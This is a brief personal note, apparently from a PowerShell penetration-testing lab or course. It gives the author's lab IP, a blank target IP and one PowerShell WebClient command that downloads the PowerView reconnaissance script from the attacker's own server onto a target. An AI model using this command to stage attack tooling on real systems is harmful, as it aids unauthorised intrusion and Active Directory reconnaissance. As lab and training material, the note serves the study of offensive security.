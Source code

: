 # PowerShell_for_Pentesters_completed 

> VOiD | Sunday 15 August 2021 06:58:37 PM IST

My IP : 10.11.43.119
Target IP : 

(New-Object System.Net.WebClient).Downloadfile('http://10.11.43.119:8080/PowerView.ps1','pv.ps1')



